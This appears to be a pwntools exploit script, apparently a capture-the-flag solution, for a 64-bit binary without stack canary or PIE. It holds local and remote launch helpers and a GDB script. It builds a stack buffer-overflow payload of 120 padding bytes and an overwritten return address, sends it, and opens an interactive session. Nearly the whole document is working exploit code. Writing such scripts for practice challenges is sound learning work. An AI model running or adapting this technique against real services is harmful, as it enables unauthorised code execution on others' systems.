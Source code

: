 ```

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

io = start()

payload = b"A"*120
payload += p64(0x0401182)

io.sendline(payload)
io.sendline("Y")

io.interactive()
```
  
  